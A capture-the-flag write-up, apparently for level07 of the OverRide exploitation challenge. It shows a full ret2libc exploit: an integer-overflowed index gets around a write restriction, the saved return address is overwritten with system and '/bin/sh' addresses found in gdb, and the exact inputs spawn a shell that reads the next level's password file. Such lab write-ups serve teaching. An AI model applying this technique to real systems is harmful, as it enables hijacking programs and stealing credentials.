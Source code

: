 ### Download binary
``scp -P4242 level06@192.168.31.33:/home/users/level06/level06 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

We notice that we can write to an array of 100 slots, and we can read from this same array.
We realize that we're prohibited from writing to indices that are multiples of 3 (0, 3, 6, 9, etc.) and 183 as number (?).
Furthermore, we discern that we can read values outside of the array's boundaries, and we can even write to these out-of-bounds slots.
We decide to perform a RET2LIBC to gain shell execution.

----

### Gathering infos to build the payload

**How to Write on index that are Multiples of 3**

To write to an index which are multiples of 3, we'll exploit integer overflow, using a number that isn't itself a multiple of 3.

**Finding EIP**

Through experimentation, at index 114, we discover the number 4158936339, which translates to F7E45513 in hexadecimal. This looks like an address, likely the EIP.
````
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
````

The 114th index is the 115th position in the array (starting from 0).
Thus, max_int 2147483647 + 115 = **2147483762**.
This isn't a multiple of 3, perfect!


**Testing our EIP Overwrite Theory**

Input command: **store**
 Number: **666**
 Index: **2147483762**
 Completed store command successfully
Input command: read
 Index: **114**
 Number at data[**114**] is **666**
 Completed read command successfully
Input command: quit
**Segmentation fault (core dumped)**
--> Great! We have a segmentation fault, which means we successfully overwrote the EIP.

**Locating the 'system' Address**

``gdb ./level07``
``(gdb) b main``
[...]
``(gdb) r``
[...]
``(gdb) info function system``
[...]
>0xf7e6aed0  system

**Finding "/bin/sh" in Memory**

``(gdb) info proc map''
[...]
>0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
``(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"''
>0xf7f897ec

----

### Building of payload

Store at index 114: system.
114 is a multiple of 3, so we find the nearest int overflow: **2147483762** (2147483647 + 115).
System's address: f7e6aed0 -> **4159090384**.

Store at index 115: exit (optional).
We won't overcomplicate things since it's optional.

Store at index 116: /bin/sh.
116 isn't a multiple of 3, so we can use it directly.
Address of "/bin/sh": f7f897ec -> **4160264172**.

----

### Bypassing security


``level07@OverRide:~$ ./level07``
````
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$
````

``$ cat /home/users/level08/.pass``
>7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC






